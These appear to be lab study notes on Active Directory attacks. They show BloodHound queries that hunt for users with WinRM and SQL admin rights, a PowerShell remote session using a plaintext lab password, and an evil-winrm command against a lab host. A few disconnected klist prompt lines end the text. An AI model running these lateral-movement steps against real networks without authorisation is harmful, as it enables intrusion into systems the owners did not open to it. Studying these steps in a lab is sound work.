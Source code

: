 Like RDP, we may find that either a specific user or an entire group has WinRM access to one or more hosts.

We can use this cypher query in bloodhound to hunt for users with Remote Management access

* `MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2`

![Untitled](<.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 11.png>)

We can establish Winrm session from windows as

```powershell
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred[ACADEMY-EA-DB01]: 

PS C:\Users\forend\Documents> hostname
ACADEMY-EA-DB01
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb>
```

Alternatively we can use Evil-WinRM from linux as

* `dollarboysushil@htb[/htb]**$** evil-winrm -i 10.129.201.234 -u forend`

## **SQL Server Admin**

Cypher query to hunt for users with SQLAdmin rights

* `MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2`

![Untitled](<.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 12.png>)


[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist
